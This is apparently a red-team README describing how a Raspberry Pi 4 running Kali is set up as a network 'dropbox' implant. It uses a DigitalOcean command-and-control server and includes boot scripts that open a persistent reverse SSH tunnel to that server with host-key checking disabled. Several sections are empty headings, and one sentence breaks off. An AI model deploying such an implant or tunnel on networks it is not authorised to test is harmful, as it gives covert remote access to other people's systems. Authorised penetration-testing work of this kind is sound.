


# dropbox
I have 2 raspberry pi's that I use for red teaming. One of them is p4wnp1 which is an HID hacking tool that is running Kali Linux on a raspberry pi zero.
I also have a raspberry pi 4 that I use as a dropbox. I will describe how I got this to work and how I set everything up.

## command and control server
To get this whole thing to work I need a command and control server.
This server can be used by the dropbox to connect to it.
This server must be always reachable otherwise the dropbox can't be connected to so will be useless.
This server can be a digital ocean server because I have a server at home I could also use that but for security reasons, I will use a digital ocean VPS.
I have created a droplet with the least resources because there isn't much required from this server.


One of the key components of a dropbox is to get a connection remotely after dropping it somewhere.
This can be accomplished by a reverse ssh connection or a reverse VPN connection.
For this to work 

## Raspberry pi 4
I already have Kali Linux for arm installed on my raspberry pi 4 but this is not enough for using it as a dropbox.
To set this up you want it to be able to be dropped somewhere easy and fast and connect to it remotely after dropping it.

To get the dropbox to work I needed that kali to automatically login because if we don't do that the pi won't connect to the internet.
I have created keys and copied them to all the needed devices to have a secure connection with key authentication.

### Autossh
auto ssh needs to be installed this makes a connection with an ssh server and keeps monitoring it for reconnection.
I use keys for authentication these keys I copied before.
To make autossh work it needs to be running at bootup.
I used rc-local to run it on bootup by using this code in /etc/systemd/system/rc-local.service

```
[Unit]
 Description=/etc/rc.local Compatibility
 ConditionPathExists=/etc/rc.local
[Service]
 Type=forking
 ExecStart=/etc/rc.local start
 TimeoutSec=0
 StandardOutput=tty
 RemainAfterExit=yes
 SysVStartPriority=99
[Install]
 WantedBy=multi-user.target
```

I also added the next code to /etc/rc.local
```
#!/bin/bash -e
autossh -M $mp -fN -o "PubkeyAuthentication=yes" -o "StrictHostKeyChecking=false" -o "PasswordAuthentication=no" -o "ServerAliveInterval 60" -o "ServerAliveCountMax 3" -R $FUID:localhost:22 -i /root/.ssh/id_rsa $cncuser@$cncip &
exit 0
```

After setting up all of this I can ssh into the pi 4 without being connected to the same network through the command and control server.

## Improvements
I have attached a wireless USB adapter to have more range and wifi hacking possibilities.
I also handmade a small ethernet cable to make it more convenient when dropping it and making it less bulky.
There is an external battery to make it possible to drop in places where you can't use a wall socket.
After some time with tinkering around with the autossh, I thought it would be better to use a [reverse vpn](#reverse-vpn-gateway) that way I have full access over the machine not only ssh.
This I will do in combination with the auto ssh to always have a backup if anything goes wrong with one of them.


## P4wnp1


### Reverse vpn gateway


# Usages
